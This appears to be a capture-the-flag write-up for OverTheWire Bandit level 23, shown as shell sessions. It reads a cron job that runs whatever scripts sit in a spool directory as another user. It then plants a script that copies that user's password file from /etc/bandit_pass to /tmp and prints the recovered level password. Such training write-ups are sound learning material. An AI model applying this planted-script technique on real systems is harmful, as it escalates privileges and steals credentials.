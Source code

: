 Similar to last level. Let's read the script.

```sh
bandit23@bandit:~$ cd /etc/cron.d/
bandit23@bandit:/etc/cron.d$ ls
cronjob_bandit22  cronjob_bandit23  cronjob_bandit24  popularity-contest
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24 
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
	echo "Handling $i"
	timeout -s 9 60 ./$i
	rm -f ./$i
    fi
done
```

Alright. First things first, let's go to where the script is executing all
scripts.

```sh
bandit23@bandit:/etc/cron.d$ cd /var/spool/bandit24/
```

Now let's make a script.

```sh
bandit23@bandit:/etc/cron.d$ vim Ugohpei2.sh
#!/bin/bash
touch /tmp/iSheich6
cat /etc/bandit_pass/bandit24 > /tmp/iSheich6
```

And run it and read it.

```sh
bandit23@bandit:/var/spool/bandit24$ /usr/bin/cronjob_bandit24.sh
-snip-
bandit23@bandit:/var/spool/bandit24$ cat /tmp/iSheich6
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```
